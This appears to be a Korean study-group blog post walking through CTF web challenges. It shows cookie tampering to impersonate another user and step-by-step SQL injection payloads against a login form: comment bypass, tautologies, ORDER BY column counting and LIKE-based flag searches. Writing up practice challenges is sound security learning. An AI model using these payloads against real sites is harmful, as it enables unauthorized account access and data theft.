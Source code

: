 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[CTF] CTF 문제 풀이: SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-26
last_modified_at: 

categories: [CTF]
tags: [TIL, WEB, DATABASE, CTF]
---
```


# Login Bypass 5
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-7.png?raw=true)
response에서 Set-Cookie: loginUser = doldol이 보인다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-8.png?raw=true)
2. response를 탈취해서 loginUser를 normaltic5로 변경하겠다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-9.png?raw=true)

# Secret Login
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-3.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' ='1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection이 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 식별과 인증 동시에 하는 듯
sql: select id, pw from table where id = 'id' and pw = 'pw'
5. 
id: ' or '1' = '1'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> ' or '1' = '1'#이렇게 하면 모든 row를 다 챙겨오는 데 하나 밖에 안 보여지다보니 가장 첫 번째 row만 보여지는 듯
6. 
id: login_acc' #
pw: asdf
-> X
-> 왜 안 되지?
-> 표시되는 게 아이디가 아니라 이름인 건가?
7. 
id: login_acc' or '1' = '1' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
8. 
id: ' or '1' = '1' order by 1, 2, 3 #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 아이디, 패스워드, 사용자 이름이 있다고 가정하고 시작
... 하나씩 늘려보는 중 ...
8. 
id: ' or '1' = '1' order by 1, 2, 3, 4, 5, 6, 7 #
pw: asdf
-> x
-> column이 6개인 걸 보면 표시되는 게 아이디가 아니라 이름일 가능성이 높네
-> admin의 row를 어떻게 가져올 수 있을까?
9. 
SELECT [UserId], [Password] FROM [table] WHERE [UserId] = '___' AND [Password] = '___'
column을 UserName일 것이라 추측해봄
id: ' or '1' = '1' AND UserName = 'login_acc' #
pw: asdf
-> X
10. 
id: ' or '1' = '1' AND Username = 'login_acc' #
pw: asdf
-> X
11. 
id: ' or '1' = '1' AND username = 'login_acc' #
pw: asdf
-> X
12. 
id: ' or '1' = '1' AND user_name = 'login_acc' #
pw: asdf
-> X
13. 
id: ' or '1' = '1' AND user-name = 'login_acc' #
pw: asdf
-> X
14. 
id: ' or '1' = '1' AND name = 'login_acc' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 표시되는 게 유저명인 게 확실해졌고
-> column이 name이라는 것도 확인했다
-> 그렇지만 admin은 아니라는 거
-> 혹시 name에 like를 집어넣으면? flag의 경우에는 {}가 들어가니까 이걸 검색하는 걸로
15. 
SELECT * FROM [table] WHERE [UserId] = '___' or '1' = '1' AND name like '%}' #[Password] = '___'
id: ' or '1' = '1' and name like '%}' #
pw: asdf
-> X
-> 어딘가 문법이 틀렸나
16. 
id: ' or name like '%}' #
pw: asdf
-> x
17. 
id: ' or name like '%a%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
18. 
id: ' or name like '%e%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-6.png?raw=true)